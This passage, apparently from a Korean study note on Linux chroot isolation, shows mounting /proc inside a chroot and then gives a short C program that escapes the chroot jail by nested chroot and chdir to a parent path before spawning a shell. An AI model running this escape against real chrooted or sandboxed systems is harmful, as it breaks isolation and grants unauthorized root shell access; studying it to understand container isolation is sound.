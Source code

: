 
- ps 명령어는 /proc 가 마운트되어야 한다.(위에서 `/proc` 디렉터리를 통해 커널이 실시간으로 프로세스 정보를 업데이트한다는 것을 확인할 수 있다.)

```bash
root@MyServer:/tmp# chroot myroot /bin/sh
# ps
Error, do this: mount -t proc proc /proc

```

- 마운트를 진행한다.

```bash
# mount -t proc proc /proc
mount: /proc: mount point does not exist.
# mkdir /proc
# mount -t proc proc /proc
# ps
    PID TTY          TIME CMD
   6263 ?        00:00:00 sudo
   6264 ?        00:00:00 su
   6265 ?        00:00:00 bash
   6360 ?        00:00:00 sh
   6365 ?        00:00:00 ps
# ps auf
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
1000        6054  0.0  0.3   9924  5888 ?        Ss   16:11   0:00 bash --rcfile /dev/fd/63
0           6262  0.0  0.2  11904  5632 ?        S+   16:12   0:00  \_ sudo su -
0           6263  0.0  0.1  11904  2428 ?        Ss   16:12   0:00      \_ sudo su -
0           6264  0.0  0.2  10636  4736 ?        S    16:12   0:00          \_ su -
0           6265  0.0  0.2   9228  5376 ?        S    16:12   0:00              \_ -bash
0           6360  0.0  0.0   2892  1664 ?        S    16:17   0:00                  \_ /bin/sh
0           6366  0.0  0.1   7064  3072 ?        R+   16:17   0:00                      \_ ps auf
1000        5859  0.0  0.3   9924  5888 ?        Ss+  16:11   0:00 bash --rcfile /dev/fd/63
0            571  0.0  0.1   6176  2048 ?        Ss+  15:34   0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
0            557  0.0  0.1   6220  2304 ?        Ss+  15:34   0:00 /sbin/agetty -o -p -- \u --keep-baud 115200,576
```


#### 탈옥 확인


탈옥 코드를 통해 탈옥을 진행한다.

- 탈옥 코드

코드에 대해 간단하게 설명하면, “.out” 디렉터리를 만들고, 해당 폴더를 기준으로 chroot를 실행한다.


경로를 최상위(`../../../../../`)로 바꾸고, 해당 경로를 기준으로 chroot를 실행한다.


```c++
#include <sys/stat.h>
#include <unistd.h>

int main(void)
{
  mkdir(".out", 0755);
  chroot(".out");
  chdir("../../../../../");
  chroot(".");

  return execl("/bin/sh", "-i", NULL);
}
```
